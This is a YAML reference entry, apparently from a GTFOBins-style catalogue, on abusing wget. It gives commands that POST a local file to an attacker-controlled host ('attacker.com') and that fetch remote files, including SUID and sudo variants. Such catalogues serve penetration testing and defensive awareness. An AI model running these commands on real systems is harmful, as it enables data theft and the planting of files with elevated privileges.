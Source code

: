 ```yaml
---
functions:
  upload:
    - description: Send local file with an HTTP POST request. Run an HTTP service on the attacker box to collect the file. Note that the file will be sent as-is, instruct the service to not URL-decode the body. Use `--post-data` to send hard-coded data.
      code: |
        export URL=http://attacker.com/
        export LFILE=file_to_send
        wget --post-file=$LFILE $URL
  download:
    - description: Fetch a remote file via HTTP GET request.
      code: |
        export URL=http://attacker.com/file_to_get
        export LFILE=file_to_save
        wget $URL -O $LFILE
  suid-enabled:
    - description: Fetch a remote file via HTTP GET request.
      code: |
        export URL=http://attacker.com/file_to_get
        export LFILE=file_to_save
        ./wget $URL -O $LFILE
  sudo-enabled:
    - description: Fetch a remote file via HTTP GET request.
      code: |
        export URL=http://attacker.com/file_to_get
        export LFILE=file_to_save
        sudo -E wget $URL -O $LFILE
---
```

